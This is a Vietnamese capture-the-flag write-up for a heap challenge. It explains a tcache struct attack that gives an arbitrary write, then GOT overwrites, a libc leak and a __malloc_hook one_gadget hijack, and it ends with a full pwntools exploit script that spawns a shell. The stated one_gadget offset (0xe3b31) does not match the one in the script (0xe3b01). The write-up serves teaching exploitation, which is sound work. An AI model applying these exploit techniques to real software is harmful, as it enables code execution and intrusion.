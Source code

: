 # Our Poisoned Cache

## Summary
  Ý định của mình cho vòng qual chỉ là một bài pwn heap cơ bản liên quan đến **tcache struct attack** . Ban đầu challenge không có stack leak mà chỉ có heap leak tuy nhiên điều này tạo ra một challenge rất hạn hẹp và nhàm chán, dù gì thì đây cũng chỉ là một bài introduction đến với heap exploit. Tuy nhiên solution của mình sẽ không dùng đến stack leak có sẵn.
  
## Description

>My h4ck3r friend said that my program can be exploited, something something related to poisoning. I don't understack this hacking's lingo. Can you exploit this and read my file flag.txt?

![image](https://user-images.githubusercontent.com/101010673/174489807-04014b5a-7138-4afb-b016-6c767391df3a.png)  

  - Hint ở đây là liên quan đến **tcache poisoning**. Nhưng khác với technique thông thường chúng ta sẽ không overwrite lên tcache chunk đã bị free, mà chúng ta sẽ exploit thẳng vào tcache struct nằm sẵn ở trên heap.
  - Đồng thời nhận thấy đây là **partial RELRO** và **NO PIE**. Ta sẽ exploit cả vào **GOT Table**

## Reversing
  ![image](https://user-images.githubusercontent.com/101010673/174490407-e48b3b86-b3c8-4b5a-a67b-3c9f9ff4fa56.png)  

  Đây là phần quan trọng nhất của cả chương trình. Work flow của chương trình là như sau:  
  - **Malloc** 0x40 bytes chunk  
  - **Malloc** 0x10 bytes chunk (Tránh chunk consolidation)  
  - Cho ta biết **heap base** và **stack address**
  - **Free** 0x40 bytes chunk  
  - Cho ta **arbitrary write chỉ riêng trên heap** 
  ![image](https://user-images.githubusercontent.com/101010673/174490474-4022bc33-2af5-4b30-a7a5-c6f7929785c6.png)  
      
  - Chỉ **malloc** 0x40 bytes chunk 1 lần nữa nếu ta đã không ghi đè vào **fd pointer** của freed tcache chunk, và **bk pointer** nằm trong heap range  
  ![image](https://user-images.githubusercontent.com/101010673/174490505-b9ec90f3-da1b-4b58-8705-5bf2441e4235.png)  
  - **Chỉ chunk 0x40 bytes lần 2 là ta có quyền nhập vào 0x30 bytes.**  
  - Chương trình sẽ exit ngay sau đó  
    
  => Với restriction này ta không thể thực hiện **tcache poisoning** thông thường

## Prerequisite Knowledge
  Trước tiên chúng ta cần nói qua về **tcache struct attack**:  
```c
  typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];//0x40
  tcache_entry *entries[TCACHE_MAX_BINS];//0x40
} tcache_perthread_struct;
```  
  - Khi chương trình dùng đến **TCACHE**, thì **tcache_perthread_struct** sẽ được initialized và được lưu trữ ngay trên heap  
  ![image](https://user-images.githubusercontent.com/101010673/174491121-d069fa38-a099-453c-9864-84c5a8826255.png)  
  - Nó chính là chunk đầu tiên với size `0x290 bytes`
  - Struct tcache sẽ bao gồm một array *counts* đầu tiên với 0x40 bytes. Mỗi bytes sẽ đại diện cho số lượng tcache với size đó mà ta hiện có)  
  - Một array *entries* chính là **address của chunk đứng đầu trên single linked list** của tcache với từng size một. 
  ![image](https://user-images.githubusercontent.com/101010673/174491555-9f603fa8-e8ca-411f-872c-36e5af12dc4e.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491573-022e2a56-f9db-4276-9483-9a762cb55066.png)   
  - Một tcache linked list thông thường sẽ như sau: Size 0x20: Chunk 1 -> Chunk 2 -> Chunk 3 -> ..... -> Chunk 7 ( Tcache của một size chỉ cố tối đa **7 chunk**)
  - Với **tcache poisoning** thông thường ta sẽ pollute **fd (forward) pointer** để làm thay đổi linked list dẫn đến chunk tiếp theo sẽ trả về một địa chỉ khác.
  - Size 0x20: Chunk 1 -> Chunk 2(fd pointer poisoned) -> (The address we poisoned with) -> corrupted
  - Như vậy lần **malloc** thứ nhất với size 0x20 bytes, chương trình kiểm tra tcache và thấy có chunk 1 free -> Chương trình trả về chunk này cho chúng ta
  - Lần **malloc** thứ hai tương tự, nhưng lần này sau chunk 2 lại trỏ đến một address khác (Ta đã poison tcache)
  - Lần **malloc** thứ ba, sẽ trả về address mà ta đã poison
  - Tuy nhiên như đã nói ở trên chương trình có kiểm tra xem **fd pointer** của chunk có bị corrupt không thế nên ta sẽ không tấn công vào đây mà sẽ tấn công ngay vào **entries** hay chính là chunk đầu tiên  
  ![image](https://user-images.githubusercontent.com/101010673/174491604-6f550d5b-8772-4192-b2c1-6350ce65e842.png)  
  - **0x4052a0** chính là entries tương ứng với 0x50 size tcache chunks và ta cần ghi đè địa chỉ này thành địa chỉ khác

## Arbitrary Write
  Từ kiến thức về **tcache struct attack** ở trên ta đã có khả năng để **arbitrary write ngoài vùng heap** với ý tưởng như sau:
  - Quay lại về flow của chương trình: ptr = malloc(0x40) -> free(ptr) -> malloc(0x40)
  - Như vậy sau lần malloc đầu rồi free, tcache 0x50 sẽ có một chunk đấy chính là **0x4052a0**  
  - Ta sẽ ghi đè địa chỉ này lần malloc sau đó sẽ trả về address ta mong muốn  
  
  Ví dụ: Ta ghi đè với **0x405310**  
  ![image](https://user-images.githubusercontent.com/101010673/174491852-0a10a91c-3de1-4ff9-9c91-8d284adab2a7.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491913-a489e067-d9e8-46a5-bffc-fc2559fbcf68.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491894-bbce2064-b7a9-470e-b9ec-fbe069bb8d8f.png)  
  
  Giờ thì ta có thể ghi đè **GOT Table**, ghi đè **GOT của exit** thành địa chỉ của main để ta có thể chạy chương trình vô hạn lần
  
  **Chú ý:** Sau khi ta ghi đè **entries** xong thì **fd pointer** của chunk tiếp theo sẽ tiếp tục bị corrupt, nên ta cần phải ghi đè lại **fd pointer** thành null để thỏa mãn điều kiện malloc lần 2  
  ![image](https://user-images.githubusercontent.com/101010673/174492474-8d9928dc-d621-4965-822e-049dda9d33a9.png)  
  8 bytes đầu tiên không còn là null như lần đầu nữa nên ta cần ghi đè lại  
  
## Info-leak
  Đầu tiên ta cần leak được địa chỉ libc, solution của mình sẽ leak thông qua **setvbuf**  
  ![image](https://user-images.githubusercontent.com/101010673/174492592-9786c4cb-ea04-48c1-873e-24d56761aeab.png)  
  - Nếu **GOT của setvbuf** trở thành **printf**, thì ta sẽ in ra được giá trị lưu tại địa chỉ global **stdin,stdout,stderr**  
  - Mà các địa chỉ global kia lại được lưu ở **.bss** -> ta có thể ghi đè cả địa chỉ global này  
  => Ta có thể leak giá trị ở bất kì địa chỉ nào mà ta mong muốn  

## Control RIP  
  - Để kiểm soát được luồng thực thi của chương trình (Hijacking RIP), ta sẽ dùng trick phổ biến: ghi đè **__malloc_hook** thành **one_gadget**  
  - Như vậy mỗi khi chương trình gọi **malloc** -> gọi **malloc_hook** -> gọi **one_gadget**  
  ![image](https://user-images.githubusercontent.com/101010673/174492774-c92db6d7-ff4f-42dc-98d7-b2521b19ac79.png)  
  - Mình sử dụng **one_gadget** nằm ở offset **0xe3b31**  
 
## Full exploit script  
```python
from pwn import *

r = remote("127.0.0.1",2005)

#r = gdb.debug("./our_poisoned_cache_patched")
context.log_level = 1
r.recvuntil("is: ")
heap_base = int(r.recvline()[0:-1],16)
r.recvuntil("is: ")
stack_addr = int(r.recvline()[0:-1],16)
overwrite_tcache = heap_base + 0xa8
exit_got = 0x404068
free_got = 0x404018
stderr = 0x4040a0
main = 0x004012c7
setvbuf = 0x404050
log.info("Overwriting exit GOT to point to main")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(exit_got)))
r.send(p64(main))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x310)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting setvbuf to point to printf")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(setvbuf)))
r.send(p64(0x401050) + p64(0x401016))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x3f0)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting stderr to another address point to read GOT")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(stderr)))
r.send(p64(0x404040))
r.recv(8)


log.info("Setvbuf will now print out libc address stored at read GOT")
leak_libc = u64(r.recv(6).ljust(8,"\x00"))
libc_base = leak_libc - 0x10dfc0
malloc_hook = libc_base + 0x1ecb70
one_gadget = libc_base + 0xe3b01
log.info("Libc Base Address: " + hex(libc_base))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x4d0)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting __malloc_hook to one_gadget")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(malloc_hook)))

r.send(p64(one_gadget))
r.clean()
r.interactive()

```  
![image](https://user-images.githubusercontent.com/101010673/174493058-839a6328-e738-441d-a9fc-c9f32cbab67c.png)


  

  
  
  
  


  
  


